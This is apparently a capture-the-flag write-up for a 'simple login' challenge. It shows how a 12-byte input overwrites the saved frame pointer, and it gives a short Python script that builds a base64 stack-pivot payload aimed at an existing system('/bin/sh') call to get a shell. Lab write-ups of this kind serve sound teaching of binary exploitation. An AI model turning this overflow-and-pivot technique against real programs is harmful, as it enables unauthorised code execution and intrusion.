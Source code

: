 # Rookiss - simple login

> Can you get authentication from this server?

I checked the assembly code (and diassembled source code) using IDA. These two functions are the most important it seems, `main` and `auth`.
[Screenshot ↗️](https://i.imgur.com/7fwaU3x.png)

The way IDA represents the memory locations, it's relatively easy to spot a memory overflow vulnerability. Notice how the input is allowed to be 12 bytes long, but is copied to a location at `[ebp - 8]` (see `auth()`). That makes it possible to overwrite EBP.
The program also makes it relatively easy to exploit this, because there is already [a line of code](https://i.imgur.com/LZbXZ1m.png)
 in `correct()` that opens a `/bin/sh` shell. I constructed a payload like this: 

```py
import base64

payload = b"ABCD"
payload += b"\x84\x92\x04\x08"    # The call to system("/bin/sh")
payload += b"\x40\xeb\x11\x08"    # Changing the stack to .bss:0x0811EB40 (= the block starting symbol)

print(base64.b64encode(payload).decode('utf-8'))
```

Notice how it's actually easier to construct a payload when the input is taken as Base64: there is no need to worry anymore about how to input special characters (null bytes, newlines, ...) to the program using stdin.

Now, once I have the reverse shell, I only have to `cat` the flag file.
![](https://i.imgur.com/aSIsC2M.png)
